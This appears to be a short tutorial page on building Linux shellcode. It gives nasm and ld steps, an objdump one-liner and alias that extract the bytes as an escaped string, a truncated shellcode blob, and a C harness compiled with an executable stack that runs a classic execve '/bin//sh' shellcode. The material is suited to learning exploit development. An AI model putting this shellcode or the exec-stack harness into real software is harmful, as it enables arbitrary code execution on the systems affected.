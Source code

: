 # 1. Compile assembly into machine code
nasm -f elf64 shell.asm

# 2. Link Dependency
ld -d shell.bin shell.o

# 3. Build shell code from a compiled binary
objdump -d shell.bin | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
alias shellcode='grep '"'"'[0-9a-f]:'"'"'|grep -v '"'"'file'"'"'|cut -f2 -d:|cut -f1-6 -d'"'"' '"'"'|tr -s '"'"' '"'"'|tr '"'"'\t'"'"' '"'"' '"'"'|sed '"'"'s/ $//g'"'"'|sed '"'"'s/ /\\x/g'"'"'|paste -d '"'"''"'"' -s |sed '"'"'s/^/"/'"'"'|sed '"'"'s/$/"/g'"'"''

```binary
\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x
```

# 4. Shell code is ready. Can be tested in a C program


# References
[]

# Test with c++ program
g++ -w -fpermissive -z execstack stdin.cpp  -o stdin


#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
